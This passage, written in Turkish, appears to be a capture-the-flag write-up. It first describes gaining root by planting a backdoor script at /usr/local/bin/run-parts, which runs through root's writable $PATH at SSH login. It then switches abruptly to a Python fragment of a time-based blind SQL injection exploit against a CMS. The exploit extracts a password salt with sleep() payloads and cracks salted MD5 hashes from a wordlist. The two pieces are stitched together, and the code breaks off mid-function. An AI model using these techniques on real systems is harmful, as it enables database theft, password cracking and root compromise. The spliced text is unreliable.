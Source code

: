 ```
Bir kullanıcı giriş yaptığında, `root` kullanıcısı `sh` çalıştırır, bu da `/usr/bin/env` çalıştırır. Bu işlem belirli bir `$PATH` tanımlar ve `update-motd.d` dizini üzerinde `run-parts` komutunu çalıştırır.

Hemen fark edeceğim ki `$PATH` değişkeninin öncelikli olarak iki adet yazma iznine sahip olduğum dizini içerdiğini göreceğim.

Bunun üzerine, `/usr/local/bin/run-parts` konumuna bir script yazıp çalıştırılabilir (`executable`) hale getireceğim. Daha sonra SSH bağlantısını tekrar kurarak giriş yapacağım.

![Pasted image 20250204204412.png](/img/user/resimler/Pasted%20image%2020250204204412.png)

Şimdi SSH ile tekrar giriş yapabilirim ve backdoored shell'im beni bekliyor.

![Pasted image 20250204204627.png](/img/user/resimler/Pasted%20image%2020250204204627.png)


flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = options.wordlist if options.wordlist else ""

def crack_password():
    global password, output, wordlist, salt
    try:
        # errors='ignore' ile hatalı karakterleri atlayarak dosyayı okuyoruz
        with open(wordlist, 'r', encoding="utf-8", errors='ignore') as f:
            for line in f.readlines():
                line = line.strip()
                # MD5 hash için önce veriyi encode ediyoruz
                if hashlib.md5((str(salt) + line).encode()).hexdigest() == password:
                    output += "\n[+] Password cracked: " + line
                    print(output)
                    return
    except Exception as e:
        print("[-] Error reading wordlist: ", e)

def beautify_print():
    cprint(output, 'green', attrs=['bold'])

def dump_salt():
    global flag, salt, output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + format(ord(dictionary[i]), 'x')
            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_siteprefs+where+sitepref_value+like+0x" +
                ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
```
